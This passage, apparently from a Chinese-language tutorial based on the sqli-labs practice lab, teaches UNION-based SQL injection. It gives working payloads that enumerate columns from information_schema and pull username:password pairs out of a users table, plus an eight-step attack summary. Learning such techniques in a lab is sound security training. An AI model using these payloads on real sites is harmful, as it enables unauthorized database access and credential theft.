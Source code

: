 #### 获取列名

指定目标表名查询列信息：

```
?id=-1' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6,7 FROM information_schema.columns WHERE table_name='users' AND table_schema='test_db'--+
```

> **分页技巧**：
> 
> 添加`LIMIT 0,5`分批获取数据（避免结果过长截断）

### 6. 提取具体数据

查询目标表中的敏感字段（如用户名、密码）：

```
?id=-1' UNION SELECT 1,CONCAT(username,0x3a,password),3,4,5,6,7 FROM users--+
```

> 使用`group_concat()`可一次性获取多列数据
> 
> 如需分页，可添加`LIMIT`子句：`LIMIT 0,5`（获取前5条）
> 
> - **输出优化**：
>   
>   `0x3a`是冒号`:`的十六进制，用于分隔字段
>   
>   `GROUP_CONCAT(username,':',password)`合并多行结果

## 总结步骤示例

1. 探测注入点：?id=1' → 观察报错

2. 判断类型：?id=1 and 1=1 → 正常；?id=1 and 1=2 → 报错（数字型）

3. 查列数：?id=1 order by 3 → 正常；?id=1 order by 4 → 报错（3列）

4. 找显示位：?id=-1 union select 1,2,3 → 显示2和3

5. 查库名版本：?id=-1 union select 1,database(),version()

6. 查表名：?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()

7. 查列名：?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'

8. 查数据：?id=-1 union select 1,group_concat(username),group_concat(password) from users

参考资料：[sqli-labs通关详解 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/440191.html)
